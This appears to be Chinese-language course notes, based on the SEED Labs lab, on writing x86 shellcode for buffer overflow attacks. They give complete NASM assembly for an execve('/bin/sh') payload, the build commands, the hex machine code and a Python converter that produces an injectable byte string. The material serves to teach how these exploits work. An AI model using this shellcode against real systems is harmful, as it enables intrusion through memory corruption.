 # 构造shellcode

如何构造恶意代码进行攻击？最方便的是注入运行shell程序的代码。
为shell程序编写的汇编代码称为shellcode，shellcode只适合汇编来写

## 缓冲区溢出c语言不适合写恶意代码

```c
#include <stddef.h>

void main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```
1、缓冲区溢出攻击中，恶意代码不是由操作系统加载的，而是由内存复制载入的。而c程序运行需要启动操作系统加载器。   
2、由于要复制，无法解决代码中的0问题  

## 如何写shellcode

这部分来自[Seed Labs shellcode development Lab](https://seedsecuritylabs.org/Labs_20.04/Files/Shellcode/Shellcode.pdf)  
shellcode和处理器有关系，一般用intel处理器，有两种：  
x86是32位CPU的  
x64是64位CPU的  

!!! Note

    64位的处理器也能运行32位的程序

首先安装汇编语言编译程序nasm
```bash
sudo apt install nasm
```

以下是一个32位汇编mysh.s  
```text
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```
![编译32位目标文件](../img/overflow-shellcode1.png)
程序执行前后，当前shell进程id不一样，说明新起了一个shell进程  

!!! nasm指令

    nasm -f elf32 mysh.s -o mysh.o编译32位.o文件。-f elf32编译ELF二进制格式 
    ld -m elf__i386 mysh.o -o mysh链接成32位可执行文件

攻击的时候，我们只需要的是shellcode的机器码，只有机器码才称为shellcode  
可以从目标文件或者可执行文件中得到机器码，对于汇编语言，有两种方式得到机器码：1、AT&T语法模式。2、Intel语法模式

得到机器码：
![得到机器码](../img/overflow-shellcode2.png)

也可以用xxd打印偏于copy的机器码：
![得到机器码](../img/overflow-shellcode3.png)

机器码在python程序里运行需要转换成python数组的格式，转换程序如下：
```python
#!/usr/bin/env python3

# Run "xxd -p -c 20 rev_sh.o",
# copy and paste the machine code to the following:
ori_sh ="""
31c050682f2f7368
682f62696e89e3505389e131d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15: 
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
```
![得到shellcode](../img/overflow-shellcode4.png)
就得到了最终的shellcode

## 构造shellcode的核心方法

结合上面mysh.s汇编代码分析  
shellcode最核心的是使用execve()系统调用来执行/bin/sh，这个系统调用，需要设置4个寄存器：  
1、eax寄存器，必须保存11，11是execve的系统调用号  
2、ebx寄存器，保存命令字符串的地址，如/bin/sh  
3、ecx寄存器，保存参数数组地址  
4、edx寄存器，保存想传给新程序的环境变量地址  
int 0x80，int为中断，运行中断，执行该系统调用